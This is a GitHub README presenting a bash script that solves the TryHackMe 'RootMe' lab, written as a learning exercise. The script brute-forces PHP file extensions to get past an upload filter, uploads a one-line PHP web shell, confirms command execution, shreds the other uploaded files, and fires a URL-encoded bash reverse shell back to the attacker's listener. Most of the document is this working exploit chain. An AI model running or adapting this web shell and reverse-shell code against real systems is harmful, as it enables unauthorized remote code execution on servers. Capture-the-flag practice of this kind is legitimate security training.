 > The purpose of this script is to practice scripting in bash and understand the techniques involved in bypassing file upload restrictions. It serves as a learning exercise and should only be used on authorized systems for educational purposes.

# TryHackMe-RootMe
### Bash script to solve the TryHackMe machine: [RootMe](https://tryhackme.com/room/rrootme). I wrote this script to learn and practice bash scripting. I used it to bypass file upload restrictions and gain access to the server, allowing me to escalate privileges later on.

![ezgif com-crop](https://github.com/kvlx-alt/File-upload-bypass-TryHackMe-RootMe/assets/118694485/3a0bc6f0-8bcb-4b91-887e-ef982cd1efa5)


``` bash
#!/bin/bash

# Colores
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"

# Ctrl C
trap 'echo -e "\n\n${redColour}[!] Keyboard interruption detected. Terminating.${endColour}\n"; exit 1' INT

file_extension=(".php" ".php2" ".php3" ".php4" ".php5" ".php6" ".php7" ".phps" ".phps" ".pht" ".phtm" ".phtml" ".pgif" ".shtml" ".htaccess" ".phar" ".inc" ".hphp" ".ctp" ".module")
# let's create a file with some PHP code
php_code='<?php system($_GET["cmd"]); ?>'

for extension in "${file_extension[@]}"; do
  
  echo "$php_code" > "cmd${extension}"
  sleep 2
  response=$(curl -s -F "fileUpload=@cmd${extension}" -F "submit=" "http://10.10.45.41/panel/")
  
  if echo "$response" | grep -q "PHP não é permitido!"; then
    echo -e "${yellowColour}[*]Checking file extension cmd${extension}${endColour}"
    echo -e "${redColour}Sorry, you cannot upload this file${endColour}${yellowColour} >${endColour} ${purpleColour}cmd$extension.${endColour}"
  else
    echo -ne "\r${yellowColour}[*]Checking if the${endColour} ${redColour}whoami${endColour} ${yellowColour}commmand works with the following extension file cmd${extension}${endColour}"
    check_cmd=$(curl -s "http://10.10.45.41/uploads/cmd${extension}?cmd=whoami")
    if echo "$check_cmd" | grep -q "www-data"; then
      echo -e "${redColour} [Yes] ${endColour}${purpleColour}$check_cmd${endColour}"
      sleep 2
      valid_extention="cmd${extension}"
      echo -e "${yellowColour}[!]Delete invalid files on the server${endColour}"
      sleep 3
      echo -e "${yellowColour}[*]${endColour}${yellowColour}Success fully deleted.${endColour}"
      echo -e "${yellowColour}[!]Please open another terminal and start listening to the reverse shell with the following command${endColour} ${redColour}nc -nlvp 5001${endColour}"
      sleep 20
      curl -s 'http://10.10.45.41/uploads/cmd.php5?cmd=find%20.%20-maxdepth%201%20-type%20f%20-name%20%22cmd*%22%20%21%20-name%20"'$valid_extention'"%20-exec%20shred%20-u%20%7B%7D%20%5C%3B'
      echo -e "${yellowColour}[*]triyng reverse shell${endColour}"
      shell=$(echo -e "GET /uploads/cmd${extension}?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.2.39.16%2F5001%200%3E%261%27 HTTP/1.0\r\n\r\n" | nc 10.10.45.41 80)
      break
    fi
  fi
  rm "cmd${extension}"
done
```
### I'm learning, so I appreciate any help and recommendations you can give me to improve my scripting in bash. 
> Hey, follow me on [LinkedIn!](https://www.linkedin.com/in/kevinvanegaszubiria)
